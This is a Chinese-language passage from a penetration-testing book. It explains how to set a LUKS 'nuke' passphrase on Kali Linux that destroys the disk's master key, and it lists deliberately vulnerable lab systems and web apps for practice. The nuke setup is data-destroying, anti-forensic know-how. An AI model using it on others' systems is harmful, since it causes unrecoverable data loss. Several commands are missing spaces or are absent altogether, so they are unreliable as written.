渗透测试人员通常手中持有敏感信息-成功的测试可以揭示客户网络中的缺陷，甚至用于进行渗透测试的工具在某些司法管辖区可能被视为非法。因此，测试人员经常使用全盘加密来保护其系统。

在安装到硬盘或虚拟机的分区阶段，Kali 可以设置为使用**逻辑卷管理**（**LVM**）和**Linux 统一密钥设置**（**LUKS**）的组合进行全盘加密，这是 Linux 硬盘加密的标准应用程序。如下图所示：



访问加密驱动器需要密码短语，并建议密码短语长度为 20 个或更多字符。不幸的是，鉴于最近出现的国家赞助的监视，有人担心测试人员可能会被迫向政府特工提供密码短语，从而消除加密的好处。

解决方案是提供一个将销毁或破坏主密钥的密码短语。这将确保机密性，使得无法解密驱动器。这一功能最近添加到 Kali Linux 1.06 版本中。

Kali Linux 集成了 LUKS，这是一个平台无关的加密规范，允许用户对硬盘上的分区进行加密。LUKS 允许多个用户密钥解密主密钥，允许多个用户对数据进行加密和解密，并允许使用备份密钥。

创建 LUKS 加密容器时，会生成一个随机主密钥。该主密钥使用密码短语进行加密。这种方法的优势在于密码短语不直接与数据相关联-如果两个相同的卷被加密并使用相同的密码短语，则主密钥仍然是唯一的，并且不能互换。

这意味着如果主密钥丢失或损坏，就不可能恢复加密数据。这种属性允许我们通过故意擦除主密钥来销毁加密卷或硬盘的恢复，如果输入特定密码短语。紧急自毁功能是在 Kali Linux 1.06 版本中添加的，并可以使用 cryptsetup 实用程序实现。

要使用销毁功能：

1.  使用**全盘加密**选项安装 Kali。在安装 Kali 之前，所有分区将被擦除；这将导致安装速度变慢。

1.  使用以下命令验证加密硬盘的 LUKS 头信息：

```
root@kali:~# cryptsetup luksDump /dev/sda5

```

**密钥槽 0**，与磁盘加密密码相关联，已启用。其余密钥槽未使用。以下是先前命令的执行结果：


1.  使用以下命令添加`销毁`密钥：

```
root@kali:~# cryptsetup luksAddNuke /dev/sda5

```

系统将提示您输入现有密码短语以验证身份，然后要求您输入新密码短语以用于销毁选项。请注意-它不会提示用户重复输入密码短语，以防止输入错误。以下是先前命令的执行结果：


1.  要确认销毁密钥是否已启用，请查看可用密钥槽的列表，使用以下命令：

`密钥槽 1`现在已启用；它包含销毁密钥。

1.  使用以下命令备份密钥：

```
root@kali:~# cryptsetupluksHeaderBackup --header-backup-file 
  <filename> /dev/sda5 

```

1.  主密钥文件备份后，对其进行加密并将其转移到系统外进行安全存储。有几种应用程序可用于加密（例如，7 Zip，bcrypt，ccrypt 和 GnuPG），或者您可以使用内部命令，如`openssl`。示例命令如下：

```
root@kali:~# opensslenc -aes-256-cbc -salt -in <filename>
  -out <encrypted filename.enc> 

```

当备份文件被保护后，您的系统将受到强制密码提取的保护。如果输入了核弹密码，主密钥的本地副本将被销毁，从而无法访问加密文件。

如果在输入核弹密码后转储 LUKS 头部，您将看到如下截图所示的输出：



如果您想恢复一个被迫销毁的驱动器？只要您可以从远程存储位置检索加密头部，这就是一个简单的问题；您将能够解密硬盘并恢复数据。一旦解密了加密头部（使用基于保护文件的方法的适当解密命令），输入以下命令：

```
root@kali:~# cryptsetupluksHeaderRestore --header-backup-file 
  <filename> /dev/sda5 

```

这将生成以下警告：

```
Device /dev/sda5 already contains LUKS header, Replacing header will 
  destroy existing keyslots. Are you sure? 

```

当提示时，输入`YES`。这将替换头部并允许您解密硬盘。

# 建立测试环境

在测试生产环境之前，测试人员充分了解如何使用测试工具，它们对目标系统的影响，以及如何解释与针对目标执行的活动相关的数据是非常重要的。

在受控环境中进行测试通常会产生与在生产系统上运行相同测试时不同的结果，原因包括以下几点：

+   目标环境中的操作系统与测试环境中的操作系统不同，包括操作系统的不同版本。（XP 与 Windows 8.1 显然不同，但 Windows 8.1 专业版和企业版之间或 32 位和 64 位操作系统之间也存在差异。）为了支持本地语言而对操作系统进行的修改也可能对漏洞的存在产生重大影响。

+   目标环境具有不同的服务包、补丁或升级。

+   目标环境安装了不同的第三方应用程序；这些应用程序可能与网络流量冲突，引入新的漏洞，或影响测试人员利用现有漏洞的能力。

+   在主机环境中配置为虚拟机的目标可能与直接安装在裸机上的目标系统有不同的反应。

+   目标受到各种网络和系统设备以及应用程序的保护。

为了获得最佳结果，测试人员（和攻击者）通常使用两阶段测试过程。测试人员首先使用一个明确定义的虚拟机（如 Windows XP）执行攻击，以确定最有效的攻击工具和方法；一旦这个简单的测试案例被证明，测试人员会使用一个更复杂的虚拟或物理网络重新验证攻击，尽可能地模拟目标网络。

## 易受攻击的操作系统和应用程序

测试人员通常会维护当前和历史操作系统的库。

在测试微软操作系统时，WinXP 被用作测试漏洞的*参考标准*。尽管 Windows XP 将在 2014 年停用，并且不再得到微软的支持，但它将继续存在于许多网络中的服务器和工作站，以及嵌入在打印机和销售点终端等设备中。

在测试易受攻击的 Windows 操作系统时，订阅 MSDN（[`msdn.microsoft.com/en-ca/subscriptions/aa336858`](http://msdn.microsoft.com/en-ca/subscriptions/aa336858)）是非常宝贵的，以便获得实验室中测试当前微软产品的访问权限。

### 提示

不要使用从公共文件共享服务（如 Torrent 站点）下载的操作系统。DigitalDefence 最近评估了从 Torrent 站点下载的 40 个微软操作系统下载 - 每个下载都被感染了一个后门，以允许攻击者远程访问。

要测试具有特定漏洞的旧第三方 Windows 应用程序，测试人员可以访问保留旧应用程序副本的在线存储库；其中许多包括可利用的漏洞。此类存储库的示例可在以下链接中看到：

+   [`www.oldapps.com`](http://www.oldapps.com)

+   [www.oldversion.com](http://www.oldversion.com)

由于它们的开源性质，多个版本的类 Unix 操作系统（Linux、BSD 和 Solaris）可供下载和测试。

以下项目将允许您测试已知漏洞的 Unix 操作系统安装，您可以访问：

+   Damn Vulnerable Linux ([`sourceforge.net/projects/virtualhacking/files/os/dvl/`](http://sourceforge.net/projects/virtualhacking/files/os/dvl/))

+   LAMPSecurity ([`sourceforge.net/projects/lampsecurity/`](http://sourceforge.net/projects/lampsecurity/))

+   Metasploitable2 ([`sourceforge.net/projects/virtualhacking/files/os/metasploitable/`](http://sourceforge.net/projects/virtualhacking/files/os/metasploitable/))

通常可以在应用程序的网站上下载具有已知漏洞的旧 Unix 应用程序。

可以从 VulnHub 存储库（[`vulnhub.com`](http://vulnhub.com)）下载用于测试的复杂环境（操作系统和易受攻击的应用程序）。这些镜像通常附有演练，演示了利用镜像的各种方法。其中一些镜像包括以下内容：

+   **bWAPP**：这提供了几种方法来破坏示例网站

+   **VulnVPN**：这允许测试人员利用 VPN 服务以访问服务器和内部服务并获得 root 访问权限

+   **VulnVoIP**：这允许测试人员进行侦察并允许利用 VoIP 网络

最后，测试人员将希望利用一些可用于测试的易受攻击的基于 Web 的应用程序。

最常见的测试目标之一是名为 Metasploitable 的 Linux 镜像。基本操作系统存在多个漏洞；此外，它在启动时加载易受攻击的 Web 应用程序。要访问这些应用程序，请将 Metasploitable 作为 VM 打开，然后启动一个带有 Kali Linux 的单独 VM。在 Kali VM 中，打开浏览器并输入 Metasploitable VM 的 IP 地址。您将看到菜单选项，如下图所示：


基于 Web 的应用程序可以用于支持企业测试以及针对 Web 应用程序的特定攻击。以下是五个应用程序：

+   **TWiki**：这是一个支持企业协作的维基应用程序，在测试过程中使用结构化内容创建简单的工作流系统

+   **phpmyadmin**：允许通过 Web 远程管理 MySQL 数据库

+   **webdav**：**Web 分布式创作和版本控制**的一组扩展，允许用户协作编辑和管理远程 Web 服务器上的文件

+   **Mutillidae**：一个易受攻击的 Web 黑客应用程序，由易受攻击的 PHP 脚本组成，易受 OWASP 前 10 个漏洞的影响

如您在以下屏幕摘录中所见，前 10 个漏洞可在下拉菜单中找到。例如，选择选项**A2 - 跨站脚本**（**XSS**）将使您访问与特定漏洞类型匹配的子菜单（**反射**，**持久**，**DOM 注入**等）。


### 提示

`Mutillidae`配置文件中指定的数据库是不正确的，您可能会收到需要数据库访问的多个错误。要解决这些问题，请登录到 Metasploitable2 并编辑`/var/www/mutillidae/config.inc`文件；将`dbname`字段从`metasploit`更改为`owasp10`。

+   最后，Metasploitable 框架启动了**Damn Vulnerable Web Application**（**DVWA**），提供了一组不同的挑战，以练习针对特定漏洞的攻击。

其他易受攻击的基于 Web 的应用程序已经得到了很好的描述，包括以下内容：

+   **Hackxor**：这是一个 Web 应用程序黑客游戏，迫使玩家通过故事解决与各种漏洞相关的挑战（[`hackxor.sourceforge.net/cgi-bin/index.pl`](http://hackxor.sourceforge.net/cgi-bin/index.pl)）。

+   **Foundstone**：这个公司发布了一系列易受攻击的 Web 应用程序，包括银行、书店、赌场、航运和旅行网站（[www.mcafee.com/us/downloads/free-tools/index.aspx](http://www.mcafee.com/us/downloads/free-tools/index.aspx)）。

+   **LAMPSecurity**：这提供了一系列易受攻击的虚拟机，旨在教授 Linux、Apache、PHP 和数据库安全性（[`sourceforge.net/projects/lampsecurity/files/`](http://sourceforge.net/projects/lampsecurity/files/)）。

+   **OWASP Broken Web Applications Project**：这是一系列易受攻击的 Web 应用程序（[`code.google.com/p/owaspbwa/`](http://code.google.com/p/owaspbwa/)）。

+   **WebGoat**：这是一个不安全的 J2EE Web 应用程序，试图提供一个真实的测试环境。它由 OWASP 维护（[`www.owasp.org/index.php/Category:OWASP_WebGoat_Project`](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)）。

+   **Web Security Dojo**：这是由 Maven Security 发布的培训应用程序（[`www.mavensecurity.com/web_security_dojo/`](https://www.mavensecurity.com/web_security_dojo/)），包含几个目标图像，包括 Damn Vulnerable Web App、Google 的 Gruyere、Hackme 的 Casino、OWASP 的 Insecure Web App 和 WebGoat、w3af 的测试网站，以及几个特定漏洞的目标。它还包含一套工具来支持利用。
